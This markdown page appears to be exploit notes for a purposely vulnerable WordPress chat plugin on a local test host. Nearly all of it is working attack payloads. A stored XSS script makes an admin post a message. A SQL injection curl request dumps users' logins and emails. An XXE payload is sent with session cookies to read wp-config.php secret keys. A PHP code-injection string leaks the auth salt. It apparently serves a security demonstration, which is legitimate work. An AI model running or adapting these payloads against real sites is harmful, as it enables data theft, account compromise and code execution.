 Make admin say something
========================

JS
--

```js
haX0R = true
```

Submit
------

```html
<script>
(function() {
	if ( 'undefined' !== typeof haX0R ) { return; }
	jQuery( '.widget_chat_sploit textarea' ).val( 'I am lame HAHAHA' );
	jQuery( '.widget_chat_sploit form' ).submit();
})()
</script>
```

Get list of all users' email adresses
=====================================

```bash
curl -i 'http://hacek.local/wordpress/wp-admin/admin-ajax.php?action=chatsploit&since=2013-04-18+05:33:47%27+UNION+SELECT+user_login+AS+author%2C+user_email+AS+text%2C+0+AS+time+FROM+wp2_users+--+'
```

Get the site's SECRET_KEYs
=========================

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [<!ENTITY hi SYSTEM "php://filter/read=convert.base64-encode/resource=file:///Users/mdawaffe/Sites/wp-config.php"> ]>
<chat>&hi;</chat>
```

```bash
cat xxe.xml | curl "http://hacek.local/wordpress/wp-admin/admin-ajax.php?action=chatsploit" -H "Cookie: wordpress_97bd8bf7ee22f9417a72a1ea2e1d6871=author%7C1366426304%7C8fad75c62a8b4bfac050244f094c1084; wordpress_logged_in_97bd8bf7ee22f9417a72a1ea2e1d6871=author%7C1366426304%7C4ae3cc62335b75ef19bb1f812050c654;" --data @-
```

Get the site's SECRET_SALTs (Code execution)
============================================

Submit
------

```
hello http://example.com/{${substr(a.($a=get_option(auth_salt)),0,1)}} there
```

